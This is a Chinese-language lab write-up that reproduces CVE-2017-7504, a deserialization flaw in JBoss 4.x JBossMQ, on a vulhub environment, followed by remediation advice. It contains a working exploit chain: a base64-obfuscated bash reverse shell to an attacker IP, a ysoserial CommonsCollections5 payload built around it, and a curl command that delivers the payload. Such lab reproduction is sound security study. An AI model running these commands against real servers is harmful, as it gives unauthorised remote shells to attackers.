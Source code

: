 # JBoss 4.x JBossMQ JMS 反序列化漏洞（CVE-2017-7504）

### 0x00 简介

Red Hat JBoss Application Server 是一款基于JavaEE的开源应用服务器。JBoss AS 4.x及之前版本中，JbossMQ实现过程的JMS over HTTP Invocation Layer的HTTPServerILServlet.java文件存在反序列化漏洞，远程攻击者可借助特制的序列化数据利用该漏洞执行任意代码。

### 0x01 环境搭建

使用vulhub搭建环境`jboss/CVE-2017-7504`

![image-20230412153049744](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412153049744.png)

访问`http://your-ip:8080/`即可看到JBoss默认页面。

### 0x02 复现步骤

1、访问地址，出现下面页面说明漏洞存在

```
http://your-ip:8080/jbossmq-httpil/HTTPServerILServlet
```

![image-20230412165139342](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412165139342.png)

2、反弹shell命令

```shell
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}
```

3、借助ysoserial的eCommonsCollections5利用链来生成序列化数据

```
java -jar ysoserial-all.jar CommonsCollections5 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEyLjE1Mi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}" > poc.ser
```

4、将生成的序列化数据发送至/jbossmq-httpil/HTTPServerILServlet，获取shell

```
curl http://192.168.12.130:8080/jbossmq-httpil/HTTPServerILServlet --data-binary @poc.ser
```

![image-20230412165630277](https://cdn.jsdelivr.net/gh/lcyunkong/images_map@main/img/image-20230412165630277.png)

### 0x03 修复建议

1、因为这类的反序列化都依赖于InvokerTransformer类。如果用户在正常业务中不使用此类，可以将此类移除。方法为使用Winzip打开jar文件，在org/apache/commons/collections/functors/InvokerTransformer.class删除该文件。

2、或者升级JBoss到最新版本。


